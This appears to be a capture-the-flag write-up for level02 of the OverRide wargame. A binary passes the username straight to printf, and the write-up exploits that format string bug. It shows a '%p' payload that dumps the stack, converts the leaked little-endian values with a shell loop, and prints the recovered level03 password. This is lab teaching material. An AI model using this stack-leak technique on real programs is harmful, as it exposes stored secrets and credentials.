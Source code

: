 # level02

The program reads a username and a password from stdin, then it compares the password to the real password read from `/home/users/level03/.pass`. If two password don't match, the binary will print username by calling `printf(username)` directly with our input username as format string.

## Step 1. Find real password in stack
```
level02@OverRide:~$ perl -e 'print "%p "x30 . "\n"' | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe4f0 (nil) (nil) 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6e8 0x1f7ff9a08 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070  does not have access!
```
We can use the uncontrolled format string to show us the values of stack which contains the password data. `0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d` is the password in little-endian format.

## Step 2. Convert little-endian password to normal string
```
level02@OverRide:~$ pass="0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d"
level02@OverRide:~$ for fragment in $pass
> do
> echo $fragment | xxd -r | rev | tr -d "\n"
> done; echo
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
